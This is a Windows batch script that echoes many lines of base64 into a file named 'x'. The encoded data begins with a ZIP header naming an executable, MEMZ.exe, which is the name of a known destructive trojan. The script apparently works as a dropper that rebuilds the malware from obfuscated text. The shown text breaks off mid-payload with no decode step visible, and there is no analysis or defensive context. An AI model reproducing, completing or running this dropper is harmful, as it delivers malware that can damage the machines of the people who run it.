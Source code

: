 @echo off

echo UEsDBBQAAAAIAHV36kiQ6IfZcyEAAAA6AAAIAAAATUVNWi5leGXtew10U8e17kg6soUtjACbGGzi>x
echo AxgMyD9Hlm1sY4JkW2AH/wjLP5BgB9k6RhKSjqIfbKcJyBgaqw65tM1NIJckNE1705Tcpi3JJWma>>x
echo OD830Da0TptFSQOpXx7NFSnhmYRbnIRw3jfnyMZpfmCt99b7WauzvM+c2TOz95699+zZIw71t+wl>>x
echo KkIIAxBFQo4QuZjItctJQErWcynk8LTjC44o6o4vaHa6gqw/IGwJ2L1sl93nE0JsJ88Gwj7W5WOr>>x
echo G22sV3Dw+dOnJ2XHaTxj9pZ/yKpcE/Dphr2uz6R3pet3qDdvT3BekurLro+kWuGkdZOry0nHf5Vs>>x
echo VgshdQo1eXHNzrYJ3ChRKpIVKYRo0Vgu4/Jm4aEDsPFV03clIWqikPonahKJK0nqNu2WBtKxk/Vk>>x
echo JZXDKwk5SF82ExJTfImAfogBPnvLCSm9Dl1PFsip+zJ68ZIf4ntDdHnJcYG0V+WeQmJzfsBhD9kJ>>x
echo eXmBjCAL/24BRNKGKV8eRu6jPK1E0g0p/MK44fxAMNBF4mvdHB9X9CX0ArxH6JLXTnUgyVbyhXGV>>x
echo X73Cf5T/naVl6NzAXVpdaDqec0KJ7eLiU6yJxBLQZRxuf1lHWtvcqR1Gsa2tzXlFZyJO6iRtYpoD>>x
echo o9wOMc2EeuC8Ivzn2zrOTtA7l2lrbXPuKjMRMa0I/UPFEfocd94DVJt4wnmQ1kMnxRNGcWhs99uh>>x
echo hbv/Frpxj0W0trkV7tniH/ZYLlrdCZQlvHJYPDHw6tI9lnGre6mY5gElq5hGUO2xxKzOwxLJNA3a>>x
echo GL/Hcuao5Yzkqm1iePyoZYy6mZjGoNuZiK3sThDTRtG4rePWob+0v9Iqpm2mBN3E+cZcLEgNygsw>>x
echo VIdFOitWQOixWME0qOL3l4pHlmM9Rf98zIpxIPk65mH6MVTG4Y6XGbry/nMV4GdrNb7dFm2/+Au6>>x
echo B2xuk5jWi0E2a9QyFpc/9gRoOmMqKhpVoJu4lbFdwA2NH9396meimIuZe6Q3a1vsdtrRPmb8m/j0>>x
echo 68BAVrppxDQ/XRTl4TZFLZdlLlLbKoYvRy3jsWpMhBZsYlouunYPhxVr0COmLUULeDEtRLU4wUaH>>x
echo 0RjzYJs8YGX44l3q2BX0RcMX3Ulnm0RRlIzrsLUOFY/QZb/dZhNPuBXf37Ue9E58f3A9tcllWKdC>>x
echo NtJe6ht3XVbMuPcvMIkzG/oU/YyYxknSzNg9CNvYbDbnzTOhHpvsU3ssjx+1PM6h54VSjD9qeYrA>>x
echo 66zR8Ei0/VC0/XC0/Ui0/flo+3C0/dVo+7Fo++vR9jfFtJNUwyhuh9tB61aQe1Nyvct4/jV1j+Uk>>x
echo BIpJDOjbGXm81Dixe3jHnzFVhT8nGA87HZLr3knnn4y2jw98KoY1bqWY5pQ0TN0oblTqv2WrYstM>>x
echo ZFv6c+nwnKHf6k98i0laO6gwr5TwgQvGX5VNP0dHzPlWf81CExnclXIF6jCvlLCB992EurtEttU2>>x
echo ND+bGucPMATjVv31HphpaJVkrz/C7hFI51bCW+Jy9l6Vc2zgihhOdDNnW0XqIpSkWPw6XNY5tow6>>x
echo KqWY6FafXYHuVhBLMr5tk+Y7TxXK2t8HMmXzTwE19OnQfOqW25a+wFHTbmPEPxiHrdZWp34ebGGV>>x
echo LbV24DXNylV0fOC0U5cDV/vDXy8NFdN98SLdOu6iNmcNavjIwHiCbG2KGy2dwIV7nTTWTyjTSc+h>>x
echo oTFqulK6KdS3uZNskte0Uvnuo970PxTh9/dYDhy1HKigmzwaPgQP2VBGHeUgSJFo+2PR9sclP3n+>>x
echo qOVIkrT7D1DiVHdiGK5STU1/tuCK5M7r17uToE8Sq1XLu1y3QNrlBLvcOVomb3WqmdhSDNj/7DFQ>>x
echo ufRxtOXy25bLp9vHT1vG37Zo5JdTxRvKTeSUmqPPVRHp3YnnOy/FDmIuDTcSQ8RGGszEtKeo3Sza>>x
echo Z/dpQPnSx3v8ytgrDH29MvRJ7Nn424exn+DNrdp/66VPb57xkz+qWi43xQ5InbR9QtUy3iSmHaL6>>x
echo Um6IRzVpm+pasZEPS3EXL+ckH9ljGUNcTHtMYnzZ+Cu95aJTQ4xk/fpW65BlXI9uvIpp6TS2YeCr>>x
echo UpAH2UnhqRtYnffNjR8EcVeIJVMZb9y/8atUM33pFNUMSu+bZdXsZmTVwLsr5lJvPizHjiOUdeGG>>x
echo V3AgkNghlWycVNk4R6x0oAaN2HfQ406ljPcwM+WFZ9smV37SFm0fkxePCLnHcspqk1cfuwXzhurP>>x
echo DLx0YD+V+WKsVkLEJhDjsdKpI4b+FFs6dQAMlK6i/rBBSf0BVpo2pelkyeukzTbUftnW1EoDbfii>>x
echo TVaqTQyPyWqVdHPutOXcqeKaKbrxS++leMa2guJUg2bGT7bYwzTkL98IMdyZOPAGXuasbkV3tCUm>>x
echo pl2ka9uupKLsVVBR9uzMVUz63sC59C91ithVp7g4VD8miW9dT7dF68DwAese8wGru9BdCMfInOIY>>x
echo Uxz/iysw0RX8SElXMMk8deLgaHMniyf2618eGndr3xDl17E3rsRtL51lkmgnpSgm7ROnYgeR9uIw>>x
echo HUJ99TU8L+qPDq0aoxib+MfYN7FSCDU0NqHYXgjxVuzUS6fVVupsH8Ld5kCkoWNDr0F5u38fXu5U>>x
echo gWxTnGrMoqDbahU9x5pipXKDnm1NoG6TTs5X/36ftU5GsGb5HHe4lQhhUihzT8exIaaNS6ddKKM1>>x
echo xoHkRnlMKyrtZDc0u0HKI0wd7S9ryFdlJRzNSmI0Zo9JkWkIvvT4l6QhA3dpVG1Dd+nCZbahrEtV>>x
echo EMUUCeW2xnh4z9B0uiL9utT9kts2SahBCaWjnh/MjNrSO25F9kTFoxp/nqZL7S9rKWWkNn9rG3pn>>x
echo 6MrQaw04ULRDFg1yAN3GjUNjVe6ktXI289d3aaj43j3rpZxjsRMKGnMrEDYoRkzTyrmIxq2QD1Rp>>x
echo 4J76y+vdDIytk2PTYhxTOyaiTutQWIM1bqIHwLhiu9X4+xpb29A4HGXoT7vF7XO7h5jtM/5d29Ed>>x
echo ZTqquqPa7Y0r/3zn+6Cye3j7AnfSbe7pG7vLKlrDuu6yulZleBqGtHZH72xVVq4cufMvt90quejb>>x
echo m7IvD1VnX35FXFxDz9vFddLTKj0HWdP/iWT8/0I5bCLkGGAUMA7QmWX8d/B+wCS/n19FyCcAzU2E>>x
echo pAJYAAdYA3gP+G7UdwDuBzwOeA5wDHACMIL+YcDPAA8D9gJ2AbYBNqDfsUrmcSDO14raBOAA3XGc>>x
echo EnLMAlAjcAAToBlAPesOwN9WE/IYYCfAB9gEqAGUAJYAZgGugFcM9SnACOA5wBhwe1fLPHbFeeUD>>x
echo 6O8hvxhNvPeVe98+wiifVZJnyC8IOT7bMBx9JfpS9OUXCHmRmA71X3k4MVhcEQmqzupI9o7Blw49>>x
echo ceVXkY/F8KWz74qDrx6KvnIo+mH0nf7XiGmij4QvRU+cfVV86pn3qo6odD8nx3UvQpbhh54lR+59>>x
echo 6Qghz44kfvTjFw48AuwZu1b1nv3niqbD33wWY8jm42m39F+JPXIXc+jw2I+v/CbyKQn/99boiSej>>x
echo L0XOZL1XOTj6XuXwB+rhvygH/xr9sKP/k4sPhV95gZhA6ggWc/IIWAxf+c1Zljx16olDT/RfGX4o>>x
echo VNkvHpwRUp09J1IuijgXzOj/5MAjYdVzFx+S+Rz/Ih+Jydmfi+Bw9iWRtDwxMBNFus9rpF8SWFKc>>x
echo PHDhwswLhKwj9zMRkTQ2kkcayfu2nVkXshSVDaTBqpyVNaBDUVoZpVUT0SkNWQOpKMoIM1CNohxk>>x
echo lJGUu00p589/gKJ8lFH+QL3z/PkU5eYblYOagTUoypOMciTlHnL+g9OnTqMcx5/yI2bg9AfnifLn>>x
echo 8we6UVQso2I1qoUp/eS88lO1yswMjCQmjig/ZnadJ7rEROXP5g34UFR+ZuA8iqqXUfk1u0liIhk9>>x
echo r7pJ808gSnp6ehJHRkZGE/GiUs5T9WoG3kdRHWNUw5rdScTfk0hU96qVnzD9p0ZUjzKRHtX7jOo8>>x
echo o2qZN/AECqNjGJ2GmZNEx/ohyMeJqn3qyBhTykT8zEq16odzB76PwmxmBowojJNhNk8fUJHz7ygv>>x
echo MKr7E/t7/MxqhrmHYdbMY5yau8tQPgYwT2kfLOMg6fl35JLih6hy6fErVP86d2A/ipow/fsfUTMJ>>x
echo ajJtEG0syE8UqkFmQIGiXpCg1qtV6oyBb6OorYy6RqfexKhzGLVbrd6YqPYmKo7sI49cSNgfVB/6>>x
echo buKOhMQd63ZemJml/rGoeeIXSuvHqhq1qkEdmamyZar86bvOj0Ig1R6tap+mf5SoHp2vGk5nqpn+>>x
echo 0VHVO0mR06pYDjNz3oAfojL5ScyKpczmzIiKuSuZuXspMzyd+aUuUsb8Npk5maPWabUjWvUNGjWb>>x
echo rF6+WN2ZELmgbktT356oDsxU71yuflJM+KmY+PS/9c+cqfhOIzn1dMrlA2Rdc9LGtFmLk3bpUlBm>>x
echo mZhZJk1Sf1ZkZtKP0maFpw0QuJSWUUdOJT/NJB1XJ71h1io0O0+PjMzaz8z6HpNUkJFcq5utS0nu>>x
echo 0Mx6kImQZA+jakxIDmck75+RvG/G7Hz1rAfV2rZE7U/VyaFMRjdv58GDB1WnmdkDCZHjs6PqyA6t>>x
echo g5n9doLWmaXlZiYHGCZXPbswOdIz+9vqSGIqGrF0bTQttYUZVKEYIc87s95NjEzXOtT9fj+jh/9o>>x